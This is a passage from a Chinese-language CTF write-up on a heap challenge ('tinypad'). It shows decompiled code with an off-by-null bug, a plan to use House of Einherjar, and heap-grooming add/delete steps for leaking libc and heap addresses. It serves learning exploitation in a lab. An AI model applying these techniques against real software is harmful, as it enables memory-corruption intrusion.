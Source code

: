 ```plain
unsigned __int64 __fastcall read_until(__int64 a1, unsigned __int64 a2, int a3)
{
  unsigned __int64 i; // [rsp+28h] [rbp-18h]
  __int64 n; // [rsp+30h] [rbp-10h]

  for ( i = 0LL; i < a2; ++i )
  {
    n = read_n(0LL, a1 + i, 1LL);
    if ( n < 0 )
      return -1LL;
    if ( !n || *(a1 + i) == a3 )
      break;
  }
  *(a1 + i) = 0;                                // off by one 经典的置空末尾“\n”，造成了 off-by-null
  if ( i == a2 && *(a2 - 1 + a1) != 10 )
    dummyinput(a3);
  return i;
}
```

修改模块可以控制 chunk\_list ( tinypad ) 这一大片区域，伪造 fake\_size 绰绰有余  
最后一个 chunk 的“presize”直接作为相邻上一个 chunk 的数据区，完全可以控制  
可以考虑打 House Of Einherjar

### 详细流程

```plain
add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3) //因为后面"chunk4->size"会被覆盖低位，所以这里只能为 0x100
delete(1) //这里要先释放后申请的 chunk，不然程序不会打印 (不知道原因)
```

[![](assets/1701612371-a82145a765bc33d1aa6aa5f9de0ba9bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151710-4b4d2f38-17df-1.png)  
因为这个题目比较特殊，所以直接利用 fd 指针来泄露 libc\_base 和 heap\_addr
